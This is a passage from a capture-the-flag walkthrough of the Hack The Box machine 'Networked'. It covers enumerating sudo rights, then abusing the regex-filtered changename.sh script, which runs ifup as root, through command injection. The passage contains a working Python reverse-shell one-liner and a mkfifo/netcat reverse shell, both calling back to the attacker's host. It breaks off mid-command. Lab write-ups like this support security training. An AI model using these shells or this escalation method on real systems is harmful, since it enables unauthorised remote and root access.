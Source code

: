 ```
listening on [any] 9005 ...
connect to [10.10.14.20] from (UNKNOWN) [10.10.10.146] 54492

cat user.txt
063...

## use python to get interactive shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.20",9002));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

Q9: What is the name of the script that guly can run as root without a password?
- run `sudo -l` to check
```
[guly@networked ~]$ sudo -l
sudo -l
Matching Defaults entries for guly on networked:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh
```

Q10: Submit the flag located in root's home directory.
- changename.sh script read user inputs and writes to file called ifcfg-guly
- then executes the config file using `ifup` (last line)
```
[guly@networked ~]$ cat /usr/local/sbin/changename.sh
cat /usr/local/sbin/changename.sh
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0
```
- changename.sh script does have regex to filter user input however it still gives room for injection which allows attacker to elevate to root access
- we can try to exploit this with a reverse shell
```
[guly@networked ~]$ echo "#!/bin/bash" > shell
[guly@networked ~]$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.20 9003 >/tmp/f >> shell
```